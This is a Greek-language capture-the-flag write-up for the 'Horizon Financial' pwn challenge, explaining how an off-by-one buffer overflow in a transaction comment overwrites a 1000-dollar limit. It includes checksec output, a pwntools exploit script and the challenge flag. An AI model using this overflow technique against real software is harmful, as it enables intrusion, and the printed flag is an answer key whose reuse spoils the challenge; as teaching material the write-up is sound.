

# Horizon Financial

| Δοκιμασία | 	ΕHorizon Financial |
| :------- | :----- |
| Δυσκολία | Εύκολη |
| Κατηγορία | Pwn |
| Λύσεις | 13 |
| Πόντοι | 420 |

### Επισκόπηση Δοκιμασίας

Η τράπεζα Horizon Financial έκανε κάποιες αλλαγές στην εφαρμογή της για να κρατήσεις τις συναλλαγές σε μικρές ποσότητες. Η λειτουργία φαίνεται αρκετά ασφαλής, συμφωνείς;

Το πρόγραμμα μας ζητάει το input για να δώσουμε ένα ποσό σε δολάρια και μετά ένα σχόλιο για την συναλλαγή. Το πρόγραμμα μας κόβει εάν δώσουμε ίσο ή μεγαλύτερο ποσό από 1000 δολάρια. 


```
-----=[ Horizon Financial ]=-----

~Innovation in Every Transaction.
                     since 2001~

Max value: 1000


[+] Total ammount: 0$

Enter the ammount > 10

Please take some time, and leave us a small comment > this is a comment

Transaction completed successfully.

[+] Total ammount: 10$
Do you want to continue ? [y/n]: y

Max value: 1000


[+] Total ammount: 10$

Enter the ammount > 1005

Please take some time, and leave us a small comment > this is a commnet

Transcaction failed. Insert ammounts lower than 1000$

[+] Total ammount: 10$
Do you want to continue ? [y/n]: n

Thank you for using our system.

```

# Επίλυση Δοκιμασίας

### Έλεγχος του αρχείου 

Αρχικά αφού δούμε τη λειτουργία του binary βλέπουμε λεπτομέρειες για το executable με την εντολή `file`.

```bash
file bank-app
bank-app: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7c3ac722ef081ed4cf7c58909695370577f9b894, for GNU/Linux 3.2.0, not stripped
```
- Dynamically linked 
  - Όταν ένα εκτελέσιμο πρόγραμμα είναι "dynamically linked" (δυναμικά συνδεδεμένο), αυτό σημαίνει ότι χρησιμοποιεί δυναμική σύνδεση με βιβλιοθήκες κατά την εκτέλεσή του. Αντί να ενσωματώνει όλο τον κώδικα των βιβλιοθηκών που χρησιμοποιεί απευθείας στο εκτελέσιμό του, το πρόγραμμα δεσμεύει δυναμικά τις βιβλιοθήκες αυτές κατά την εκτέλεση.   
- not stripped
  - Όταν το εκτελέσιμο πρόγραμμα είναι "not stripped" ουσιαστικά δεν αφαιρεί την πληροφορία από τον κώδικά του. Αυτή η πληροφορία περιλαμβάνει συνήθως συμβολικά ονόματα, σύμβολα, και άλλες πληροφορίες που χρησιμοποιούνται κατά την ανάπτυξη και την αποσφαλμάτωση του κώδικα

Έπειτα ελέγχουμε τα security mitigations. Αυτά που μας ενδιαφέρουν για το συγκεκριμένο είναι το canary το οποίο είναι disabled.

```bash
checksec --file bank-app
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- No canary
  - Ο όρος "canary" αναφέρεται στον "canary value" ή "stack cookie" που είναι ένα τυχαίο ή προκαθορισμένο αριθμητικό πεδίο που εισάγεται στον κώδικα μιας εφαρμογής. Αυτή η τεχνική είναι απενεργοποιημένη και δεν θα μπορεί να μας εμποδίσει αν υπάρξει υπερχείλιση μίας μεταβλητής στη μνήμη.

### Στατική ανάλυση του κώδικα σε decomplier (ghidra)



Στην παραπάνω εικόνα μπορούμε να δούμε τον ψευδοκώδικα του δυαδικού αρχείου που μας έχει δοθεί. Παρατηρούμε ότι αν δώσουμε καλέιται η συνάρτηση `win` αν το πόσο που δώσουμε είναι μεγαλύτερο του 1000. Ωστόσο το πρόγραμμα μας κόβει εάν κάνουμε κάτι τέτοιο. Παρατηρώντας λίγο καλύτερα τις συνθήκες ελέγχου βλέπουμε ότι το πόσο που δίνουμε συγκρίνεται με μια άλλη μεταβλητή που έχει αρχικοποιηθεί με την τιμή 1000 και ονομάζεται `long_10`

### Εκμετάλευση ευπάθειας

Στη γραμμή 26 της φωτογραφίας μπορούμε να αφήσουμε ένα σχόλιο μέσω της μεταβλητής `long_38` με την function `read`. Η `read` παίρνει 3 ορίσματα, το πρώτο είναι το `file descriptor(0=stdin)`, μια μεταβλητή για να διαβάσει τη συμβολοσειρά και τέλος τον αριθμό των bytes που γράφονται στο `long_38 `buffer μας.

Παρατηρούμε στην μεταβλητή `long_38` έχουν οριστεί σε μέγεθος 36 bytes ενώ στην function read ο χρήστης μπορεί να δώσει 41 bytes. Οπότε έχουμε `buffer overflow` το οποίο μας επιτρέπει να αλλάξουμε την τιμή της `long_10` και να δώσουμε μια μικρότερη του 1000. Αυτό συμβαίνει γιατί στη μνήμη οι θέσεις που καταλαμβάνει η συγκεκριμένη μεταβλητή μπορεί να ξεπεραστούν και να πάμε να γράψουμε σε ένα γειτονικό σημείο στη μνήμη όπου είναι η τιμή που κρατάει η `long_10`. 

Αυτό το κάνουμε για να μπορέσουμε να δώσουμε ένα ποσό μεγαλύτερο από την τιμή της `long_10` το οποίο πλέον δεν θα είναι 1000 αλλά ένας μικρότερος αριθμός όταν θα μας ξαναζητήσει το πρόγραμμα input. Τέλος, απλά δίνουμε μια μεγαλύτερη τιμή από το `long_10` και καλείται η win :).

Στο παρακάτω κώδικα μπορούμε να δούμε αυτή τη διαδικασία με σχόλια.

```python
#!/usr/bin/python3
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

exe = './bank-app'

elf = context.binary = ELF(exe, checksec=False)

# Start program
io = start()

io.sendline(b"100")

# Overwrite the max variable with a value smaller than 1000
payload = 40*b"A"

io.sendline(payload)

io.sendline(b"y")

# Insert a value higher than 778
io.sendline(b"802")

io.sendline(b"This is a test comment")

io.interactive()

```
 
# Σημαία

`FLAG{0oopss..0n3_byt3_m1ght_b3_cr1t1c4l_s0m3_t1mes_391812b0d317be0584b382403f9ad0f2}`
